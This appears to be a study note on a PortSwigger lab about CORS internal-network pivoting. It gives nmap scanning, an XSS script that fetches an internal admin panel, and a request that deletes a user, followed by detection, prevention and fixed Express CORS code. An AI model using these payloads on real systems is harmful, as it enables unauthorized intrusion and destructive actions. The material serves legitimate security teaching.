


## Internal Network Pivot Attack Using CORS

An internal network pivot attack using CORS involves exploiting a CORS misconfiguration to access internal network resources from a web application running on a public-facing server. This type of attack is particularly dangerous because it can allow an attacker to bypass network segmentation and gain unauthorized access to sensitive internal systems.

### Scenario Setup

Consider a scenario where a web application running on a public-facing server (`https://public.example.com`) has a CORS misconfiguration that allows requests from any origin. An attacker can exploit this misconfiguration to pivot into the internal network by making requests to internal services through the web application.

### Steps to Exploit CORS Misconfiguration

1. **Scan the Local Network**: The attacker scans the local network to identify internal IP addresses running web services on specific ports, such as port 8080.
   
   ```bash
   nmap -p 8080 192.168.1.0/24
   ```

2. **Identify XSS Vulnerability**: The attacker looks for XSS vulnerabilities in the web application to inject malicious scripts that can make cross-origin requests to internal services.

3. **Exploit XSS to Access Internal Resources**: Once an XSS vulnerability is identified, the attacker injects a script that makes a request to an internal service, such as an admin panel running on `http://192.168.1.10:8080`.

4. **Analyze Internal Resources**: The attacker analyzes the content of the internal resources to identify further attack vectors, such as forms that can be used to perform administrative actions.

5. **Perform Administrative Actions**: The attacker uses the identified forms to perform administrative actions, such as deleting a user account.

### Detailed Example

Let's walk through a detailed example of how an attacker might exploit a CORS misconfiguration to pivot into an internal network and delete a user account.

#### Step 1: Scan the Local Network

The attacker uses `nmap` to scan the local network for services running on port 8080:

```bash
nmap -p 8080 192.168.1.0/24
```

This scan reveals that `192.168.1.10` is running a web service on port 8080.

#### Step 2: Identify XSS Vulnerability

The attacker navigates to the public-facing web application (`https://public.example.com`) and identifies an XSS vulnerability in the username field. The attacker injects a script that makes a request to the internal service:

```html
<script>
fetch('http://192.168.1.10:8080/admin', {
  method: 'GET',
  credentials: 'include'
})
.then(response => response.text())
.then(data => console.log(data));
</script>
```

#### Step 3: Exploit XSS to Access Internal Resources

The attacker submits the form with the injected script, which makes a request to the internal admin panel. The server responds with the content of the admin panel, which includes a form to delete a user account.

#### Step 4: Analyze Internal Resources

The attacker analyzes the content of the admin panel and identifies a form to delete a user account. The form might look like this:

```html
<form action="/admin/delete_user" method="POST">
  <input type="text" name="username" value="Carlos">
  <button type="submit">Delete User</button>
</form>
```

#### Step 5: Perform Administrative Actions

The attacker submits the form to delete the user account:

```javascript
fetch('http://192.168.1.10:8080/admin/delete_user', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded'
  },
  body: 'username=Carlos'
})
.then(response => response.text())
.then(data => console.log(data));
```

### Full HTTP Request and Response

Here is the full HTTP request and response for the deletion of the user account:

#### HTTP Request

```http
POST /admin/delete_user HTTP/1.1
Host: 192.168.1.10:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

username=Carlos
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 33

User Carlos deleted successfully.
```

### Mermaid Diagrams

#### Network Topology



#### Attack Chain



### Common Pitfalls and Detection

#### Common Pitfalls

- **Misconfigured CORS Policy**: Allowing requests from any origin (`*`) can expose internal resources to unauthorized access.
- **Lack of Proper Validation**: Not validating user input can lead to XSS vulnerabilities.
- **Insufficient Network Segmentation**: Failing to properly segment the network can allow attackers to pivot from public-facing servers to internal systems.

#### Detection

- **Network Scanning Tools**: Use tools like `nmap` to scan the network for open ports and services.
- **Web Application Scanners**: Use tools like Burp Suite or OWASP ZAP to scan for XSS vulnerabilities.
- **Logging and Monitoring**: Implement logging and monitoring to detect unusual activity, such as unexpected cross-origin requests.

### How to Prevent / Defend

#### Secure Coding Practices

- **Validate User Input**: Always validate user input to prevent XSS vulnerabilities.
- **Use Content Security Policy (CSP)**: Implement CSP to restrict the sources of content that can be loaded by the browser.

#### Configuration Hardening

- **Restrict CORS Policy**: Only allow requests from trusted origins.
- **Enable HTTP Strict Transport Security (HSTS)**: Ensure that all connections are made over HTTPS.

#### Secure-Coding Fixes

##### Vulnerable Code

```javascript
// Vulnerable code
app.use(cors());
app.get('/admin', (req, res) => {
  res.send('<h1>Admin Panel</h1>');
});
```

##### Fixed Code

```javascript
// Fixed code
const cors = require('cors');
const whitelist = ['https://trusted.origin.com'];
const corsOptions = {
  origin: function (origin, callback) {
    if (whitelist.indexOf(origin) !== -1 || !origin) {
      callback(null, true);
    } else {
      callback(new Error('Not allowed by CORS'));
    }
  }
};

app.use(cors(corsOptions));
app.get('/admin', (req, res) => {
  res.send('<h1>Admin Panel</h1>');
});
```

### Practice Labs

For hands-on practice with CORS vulnerabilities and internal network pivot attacks, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs to practice identifying and exploiting CORS vulnerabilities.
- **OWASP Juice Shop**: Provides a vulnerable web application to practice various web security techniques, including CORS exploitation.
- **DVWA (Damn Vulnerable Web Application)**: A deliberately insecure web application for practicing web hacking techniques.

By thoroughly understanding CORS, its vulnerabilities, and how to defend against them, you can significantly enhance the security of your web applications and networks.

---
<!-- nav -->
[[06-How to Prevent  Defend Against CORS Vulnerabilities|How to Prevent  Defend Against CORS Vulnerabilities]] | [[Web Security (PortSwigger)/07-Cross-origin Resource Sharing (CORS)/05-Lab 4 CORS vulnerability with internal network pivot attack/00-Overview|Overview]] | [[Web Security (PortSwigger)/07-Cross-origin Resource Sharing (CORS)/05-Lab 4 CORS vulnerability with internal network pivot attack/08-Practice Questions & Answers|Practice Questions & Answers]]
